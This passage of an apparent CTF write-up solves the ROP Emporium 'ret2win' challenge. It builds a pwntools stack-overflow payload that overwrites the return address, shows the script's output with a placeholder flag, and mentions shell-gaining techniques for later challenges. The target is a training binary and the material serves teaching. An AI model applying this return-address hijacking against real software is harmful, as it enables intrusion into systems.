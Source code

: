 we craft the payload:

```python3
payload = b"A"*40         # generating 40 characters
payload += p64(0x400756)  # adding the converted ret2win address to the end
```

we recive the output from program until it asks for input:

```python3
print(p.recvuntil("> ").decode("latin-1")) # receiving
```

we send the payload that we crafted

```python3
p.sendline(payload)
```

we receive everything:

```python3
print(p.clean().decode("latin-1"))
```

running the script:

```
$ python3 exploit.py 
[+] Starting local process './ret2win': pid 21022
b"ret2win by ROP Emporium\nx86_64\n\nFor my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!\nWhat could possibly go wrong?\nYou there, may I have your input please? And don't worry about null bytes, we're using read()!\n\n> "
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}

```

we got the flag by redirecting execution!

we can also also gain a shell instead of just calling that function, we'll learn that in next challenges.

